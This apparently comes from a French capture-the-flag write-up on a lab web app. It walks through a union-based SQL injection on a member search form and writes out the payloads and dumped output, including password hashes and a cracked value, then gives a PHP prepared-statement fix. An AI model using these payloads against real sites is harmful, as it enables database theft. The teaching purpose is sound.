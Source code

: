 
# Explications

Dans la page "member", il y un formulaire pour faire une recherche des membres par id du site :
```html
<form  action="#"  method="GET"  data-children-count="1">
<input  type="hidden"  name="page"  value="member">
<input  type="text"  name="id"  style="width:100%;">
<br>
<input  type="submit"  value="Submit"  name="Submit">
</form>
```
On observe que si on laisse le champs vide et que l'on lance une recherche, on obtient une erreur:

**You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1**

Donc on sait que le site utilise une base de donnée sous MySQL et qu'il ne gere pas les entrées non prevues.
On peut donc effectuer des injections SQL.
Celle qui a fonctionner était une **Union-Based SQL Injection**

## Etapes
On mets une condition vraie dans tous les cas

<code>1 OR 1=1</code>
> Tous les users s'affichent
<pre>
ID: 1 OR 1=1 
First name: Barack Hussein
Surname : Obama

ID: 1 OR 1=1 
First name: Adolf
Surname : Hitler

ID: 1 OR 1=1 
First name: Joseph
Surname : Staline

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
</pre>

On affiche essaye d'afficher tous les noms de colonnes et de tables présentes sur la base de données a la palce du **First name** et du **Surname**

<code>1 UNION SELECT column_name, table_name FROM information_schema.columns</code>
> Toutes les tables et leurs colonnes s'affichent a la place du **First name** et du **Surname**

On cherche et on trouve un table **users** qui contient les colonnes :
1. user_id
2. first_name
3. last_name
4. town
5. country
6. planet
7. Commentaire
8. countersign

On cherche donc des informations intéressantes.
<code></code>

On try 2 part 2 les champs jusqu'à trouver 2 colonnes intéressante, **Commentaire** et **countersign** qui donnent :

<pre>
ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Barack Hussein
Surname : Obama

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
</pre>

Le password <code>5ff9d0165b4f92b14994e5c685cdce28</code> est en MD5 donc on applique un MD5 reverse et on obtient :
<pre>FortyTwo</pre>
On lower le tout et on applique un Sha256 pour obtenir le flag

# Comment l'éviter?
Il suffit d'utiliser le <code>prepare</code> quand on fait des requêtes à la base de données comme dans l'exmple ci-dessous:

```php
<?php
	function name(id) {
		try
		{
			// On se connecte
			$bdd = new PDO('mysql:host=localhost;dbname=name', 'mdp', '', array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION ));
			
			// On prépare la requête
			$requete = $bdd->prepare("SELECT * FROM users WHERE id = :id");

			// On lie la variable $id définie au-dessus au paramètre :id de la requête préparée
			$requete->bindValue(':id', $id, PDO::PARAM_STR);

			//On exécute la requête
			$requete->execute();
			
			// On récupère le résultat
			if ($requete->fetch())
			{
				echo 'INFORMATIONS';
			}
		} catch (Exception $e)
		{
			die('Erreur : ' . $e->getMessage());
		}
	}
?>
```
# Comment l'exploiter ?